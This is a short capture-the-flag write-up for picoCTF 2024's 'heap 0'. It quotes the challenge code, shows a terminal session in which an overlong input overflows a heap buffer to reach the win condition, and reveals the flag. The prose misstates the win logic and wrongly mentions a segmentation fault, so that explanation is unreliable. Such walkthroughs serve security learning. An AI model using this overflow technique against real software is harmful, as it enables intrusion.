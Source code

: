 <title>heap 0- picoctf 2024</title>

<!DOCTYPE html>
<html>

<body>
    <h1>heap 0- picoctf 2024</h1>

    <h2>Challenge Description</h2>
    <p> AUTHOR: ABRXS, PR1OR1TYQ

Description
Are overflows just a stack concern?
Download the binary <a href="https://phantom1ss.github.io/blog/2024/pico2024/heap0/chall">here</a>.
Download the source <a href="https://phantom1ss.github.io/blog/2024/pico2024/heap0/chall.c">here</a>.
Additional details will be available after launching your challenge instance.
-----------------------------------------------
nc tethys.picoctf.net 51562
</p>
 
    <h2>Solution Approach</h2>
    <p>Here are the steps we took to solve the challenge:</p>
    <ol>
    we open source and see that in condition 4 check win
<p id="code1">
  case 4:
            // Check for win condition
            check_win();
            break;
</p>
 and if safe_var is equal "bico" it print flag.all option print table and safevar and add input to safe_var.
<pre>
//c
void check_win() {
    if (strcmp(safe_var, "bico") != 0) {
        printf("\nYOU WIN\n");

        // Print flag
        char buf[FLAGSIZE_MAX];
        FILE *fd = fopen("flag.txt", "r");
        fgets(buf, FLAGSIZE_MAX, fd);
        printf("%s\n", buf);
        fflush(stdout);

        exit(0);
    } else {
        printf("Looks like everything is still secure!\n");
        printf("\nNo flage for you :(\n");
        fflush(stdout);
    }
}

</pre>
<pre>
 so if have inputs in more than heap size(intthis case) can cause segment fault and get flag
  ┌──(kali㉿kali)-[~/…/blog/2024/pico2024/heap0]
└─$ nc tethys.picoctf.net 51562


Welcome to heap0!
I put my data on the heap so it should be safe from any tampering.
Since my data isn't on the stack I'll even let you write whatever info you want to the heap, I already took care of using malloc for you.

Heap State:
+-------------+----------------+
[*] Address   ->   Heap Data   
+-------------+----------------+
[*]   0x5b31783ba2b0  ->   pico
+-------------+----------------+
[*]   0x5b31783ba2d0  ->   bico
+-------------+----------------+

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 2
Data for buffer: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa

1. Print Heap:          (print the current state of the heap)
2. Write to buffer:     (write to your own personal block of data on the heap)
3. Print safe_var:      (I'll even let you look at my variable on the heap, I'm confident it can't be modified)
4. Print Flag:          (Try to print the flag, good luck)
5. Exit

Enter your choice: 4

YOU WIN
picoCTF{my_first_heap_overflow_4fa6dd49}
  </pre>
    </ol>
<br>
    <h2>Flag</h2>
    <p class="flag">picoCTF{my_first_heap_overflow_4fa6dd49}

</p>

    <h2>Conclusion</h2>
    <p>this is a very   easy chanllenge for work  on heap overflow</p>
</body>
</html>


